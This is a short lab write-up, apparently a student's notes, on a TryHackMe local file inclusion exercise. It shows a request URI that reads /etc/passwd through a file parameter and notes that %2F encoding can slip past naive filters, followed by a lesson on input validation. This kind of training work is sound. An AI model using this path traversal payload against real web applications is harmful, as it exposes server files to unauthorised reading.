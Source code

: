 ﻿# Lab Title: LFI Lab #1 - Read /etc/passwd
Date: 2025-09-08

## Target
- TryHackMe LFI room (Lab #1)

## Commands / Steps
Request URI: 
http://10.10.92.17/lab1.php?file=%2Fetc/passwd

Encoded URI (decoded using CyberChef):
lab1.php?file=%2Fetc%2Fpasswd

## Results
- Successfully read `/etc/passwd` file contents
- Learned that LFI can expose sensitive system files

## Screenshots
![CyberChef decoding](../Screenshots/2025-09-08-lfi-lab1-cyberchef.png)
![Lab #1 output](../Screenshots/2025-09-08-lfi-lab1-lab.png)


## What I Learned
- LFI allows attackers to read sensitive files
- URL encoding (%2F for /) can bypass naive input filters
- Always validate and sanitize user input to prevent LFI
